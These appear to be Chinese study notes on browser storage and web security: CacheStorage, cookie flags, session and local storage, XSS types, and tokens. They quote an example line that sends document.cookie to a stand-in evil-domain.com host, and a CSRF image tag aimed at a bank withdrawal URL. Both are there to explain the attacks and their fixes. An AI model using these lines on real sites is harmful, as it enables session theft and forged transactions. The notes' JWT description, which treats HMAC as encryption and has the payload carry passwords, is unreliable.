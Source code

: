### 1.cacheStorage

https://developer.mozilla.org/zh-CN/docs/Web/API/CacheStorage 

CacheStorage接口表示Cache对象的存储。它提供了一个ServiceWorker、其他类型worker或者window范围内可以访问到的所有命名cache的主目录（它并不是一定要和service workers一起使用，即使它是在service workers规范中定义的），并维护一份字符串名称到相应Cache对象的映射。

#### CacheStorage.match()

检查给定的 [`Request`](https://developer.mozilla.org/zh-CN/docs/Web/API/Request) 是否是 [`CacheStorage`](https://developer.mozilla.org/zh-CN/docs/Web/API/CacheStorage) 对象跟踪的任何 [`Cache`](https://developer.mozilla.org/zh-CN/docs/Web/API/Cache) 对象的键，并返回一个resolve为该匹配的 [`Promise`](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/Promise) .

#### CacheStorage.has()

如果存在与 `cacheName` 匹配的 [`Cache`](https://developer.mozilla.org/zh-CN/docs/Web/API/Cache) 对象，则返回一个resolve为true的 [`Promise`](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/Promise) .

#### CacheStorage.open()

返回一个 [`Promise`](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/Promise) ，resolve为匹配  `cacheName` （如果不存在则创建一个新的cache）的 [`Cache`](https://developer.mozilla.org/zh-CN/docs/Web/API/Cache) 对象

#### CacheStorage.delete()

查找匹配 `cacheName` 的 [`Cache`](https://developer.mozilla.org/zh-CN/docs/Web/API/Cache) 对象，如果找到，则删除 [`Cache`](https://developer.mozilla.org/zh-CN/docs/Web/API/Cache) 对象并返回一个resolve为true的 [`Promise`](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/Promise) 。如果没有找到 [`Cache`](https://developer.mozilla.org/zh-CN/docs/Web/API/Cache) 对象，则返回 `false`.

#### CacheStorage.keys()

返回一个 [`Promise`](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/Promise) ，它将使用一个包含与 [`CacheStorage`](https://developer.mozilla.org/zh-CN/docs/Web/API/CacheStorage) 追踪的所有命名 [`Cache`](https://developer.mozilla.org/zh-CN/docs/Web/API/Cache) 对象对应字符串的数组来resolve. 使用该方法迭代所有 [`Cache`](https://developer.mozilla.org/zh-CN/docs/Web/API/Cache) 对象的列表。

### 2.Cookie

HTTP Cookie(也叫Web Cookie 或浏览器Cookie)是服务器发送到用户浏览器并保存在本地的一小块数据，它会在浏览器下次向同一服务器再发起请求时被携带并发送到服务器。通常它用于告知服务端两个请求是否来自同一浏览器，如保持用户的登录状态。Cookie使基于无状态的HTTP协议记录稳定的状态信息成为了可能。

Cookie主要用于以下三个方面：

- 会话状态管理（如用户登录状态、购物车、游戏分数或其他需要记录的信息）
- 个性化设置（如用户自定义设置、主题）
- 浏览器行为跟踪（如跟踪分析用户行为）

```js
Set-Cookie: <cookie名>=<cookie值>
```

#### 1.会话期Cookie

浏览器关闭之后它会被自动删除，也就是说它仅在会话期内有效。会话期Cookie不需要指定过期时间（`Expires`）或者有效期（Max-Age）

#### 2.持久性Cookie

持久性Cookie可以指定一个特定的过期时间（`Expires`）或有效期（`Max-Age`）。

```html
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;
```

#### 3.Cookie的Secure和HttpOnly标记

标记为Secure的Cookie只应该通过被HTTPS协议加密过的请求发送给服务端。

为避免跨域脚本 ([XSS](https://developer.mozilla.org/en-US/docs/Glossary/XSS)) 攻击，通过JavaScript的 [`Document.cookie`](https://developer.mozilla.org/zh-CN/docs/Web/API/Document/cookie) API无法访问带有 `HttpOnly` 标记的Cookie，它们只应该发送给服务端

```html
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly
```

#### 4.Cookie的作用域

`Domain` 标识指定了哪些主机可以接受Cookie。如果不指定，默认为[当前文档的主机](https://developer.mozilla.org/en-US/docs/Web/API/Document/location)（**不包含子域名**）。如果指定了`Domain`，则一般包含子域名。

`Path` 标识指定了主机下的哪些路径可以接受Cookie（该URL路径必须存在于请求URL中）。以字符 `%x2F` ("/") 作为路径分隔符，子路径也会被匹配。

#### 5.`SameSite` Cookies

`SameSite` Cookie允许服务器要求某个cookie在跨站请求时不会被发送，从而可以阻止跨站请求伪造攻击（[CSRF](https://developer.mozilla.org/en-US/docs/Glossary/CSRF)）。

```js
Set-Cookie: key=value; SameSite=Strict
```

None

浏览器会在同站请求、跨站请求下继续发送cookies，不区分大小写。

**Strict**

浏览器将只发送相同站点请求的cookie(即当前网页URL与请求目标URL完全一致)。如果请求来自与当前location的URL不同的URL，则不包括标记为Strict属性的cookie。

Lax

在新版本浏览器中，为默认选项，Same-site cookies 将会为一些跨站子请求保留，如图片加载或者frames的调用，但只有当用户从外部站点导航到URL时才会发送。如link链接

#### 6.会话劫持和XSS

```js
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

`HttpOnly`类型的Cookie由于阻止了JavaScript对其的访问性而能在一定程度上缓解此类攻击。

#### 7.跨站请求伪造（CSRF）

```html
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```

解决办法：

- 对用户输入进行过滤来阻止[XSS](https://developer.mozilla.org/en-US/docs/Glossary/XSS)；
- 任何敏感操作都需要确认；
- 用于敏感信息的Cookie只能拥有较短的生命周期；

### 3.Session

解释Cookie,Session,Tokenhttps://juejin.im/post/5d01f82cf265da1b67210869

### 4.SessionStorage

- 页面会话在浏览器打开期间一直保持，并且重新加载或恢复页面仍会保持原来的会话。
- 在新标签或窗口打开一个页面时会复制顶级浏览会话的上下文作为新会话的上下文
- 打开多个相同的URL的Tabs页面，会创建各自的sessionStorage
- 关闭对应浏览器tab,会清除对应的sessionStorage

### 5.LocalStorage

只读的`localStorage` 属性允许你访问一个[`Document`](https://developer.mozilla.org/zh-CN/docs/Web/API/Document) 源（origin）的对象 [`Storage`](https://developer.mozilla.org/zh-CN/docs/Web/API/Storage)；存储的数据将保存在浏览器会话中。`localStorage` 类似 [`sessionStorage`](https://developer.mozilla.org/zh-CN/docs/Web/API/Window/sessionStorage)，但其区别在于：存储在 `localStorage` 的数据可以长期保留；而当页面会话结束——也就是说，当页面被关闭时，存储在 `sessionStorage` 的数据会被清除 。

### 6.Cross-site scripting（跨站脚本攻击）

跨站脚本攻击（Cross-site scripting，XSS）是一种安全漏洞，攻击者可以利用这种漏洞在网站上注入恶意的客户端代码。当被攻击者登陆网站时就会自动运行这些恶意代码，从而，攻击者可以突破网站的访问权限，冒充受害者。

#### 在以下2种情况下，容易发生 XSS 攻击：

1.数据从一个不可靠的链接进入到一个web应用程序

2.没有过滤掉恶意代码的动态内容被发送到Web用户。

恶意内容一般包括JavaScript,但是有时候也会包括HTML,Flash或其他浏览器可以执行的代码。

#### XSS 攻击可以分为3类：存储型（持久型）、反射型（非持久型）、DOM 型。

存储型XSS

注入型脚本永久存储在目标服务器上。当浏览器请求数据时，脚本从服务器上传回并执行。

反射性XSS

当用户点击一个恶意链接，或者提交一个表单，或者进入一个恶意网站时，注入脚本进入被攻击者的网站。Web服务器将注入脚本，比如一个错误信息，搜索结果等 返回到用户的浏览器上。由于浏览器认为这个响应来自"可信任"的服务器，所以会执行这段脚本。

基于DOM的XSS

通过修改原始的客户端代码，受害者浏览器的DOM环境改变，导致有效载荷的进行，也就是说，页面本身并没有变化，但由于DOM环境被恶意修改，有客户端代码被包含进了页面，并且意外执行。

### 7.token加密

可以解决的问题：

1. Token 完全由应用管理，所以它可以避开同源策略
2. Token 可以避免 [CSRF 攻击](http://www.cnblogs.com/shanyou/p/5038794.html)
3. Token 可以是无状态的，可以在多个服务间共享

Token是服务端产生的，如果前端使用用户名/密码向服务端请求认证，服务端认证成功，那么在服务端会返回Token给前端。前端可以每次在请求时带上Token证明自己的身份。

https://juejin.im/post/5a6c60166fb9a01caf37a5e5

jwt:

1. 需要一个secret（随机数）
2. 后端利用secret和加密算法(如：HMAC-SHA256)对payload(如账号密码)生成一个字符串(token)，返回前端
3. 前端每次request在header中带上token
4. 后端用同样的算法解密
